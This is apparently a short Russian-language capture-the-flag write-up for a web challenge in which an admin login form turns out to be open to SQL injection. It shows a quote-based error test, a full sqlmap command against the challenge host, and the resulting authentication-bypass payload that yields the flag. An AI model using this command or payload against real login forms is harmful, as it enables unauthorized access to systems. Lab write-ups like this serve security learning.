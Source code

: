 # А ты админ?
Видим обычную форму ввода в админ панель, проверим на уязвимость к sql инъекциям отправив ковычку.  
Получаем ошибку, а значит сервис уязвим  
![strings](https://github.com/Lip4ik/arctf/blob/main/web/%D0%90%20%D1%82%D1%8B%20%D0%B0%D0%B4%D0%BC%D0%B8%D0%BD/solve/error.png)  

Натравим на него sqlmap  
`sqlmap -u "http://bnw.saintvegas.cc:1338" --data="user=admin&password=*" --risk=3 --level=3` 
Получаем строку, которую нужно отправить, чтобы получить доступ  
`-9028' OR 2644=2644-- pWKv`  
Наш флаг arctf{too_easy_sql_inj}   
 
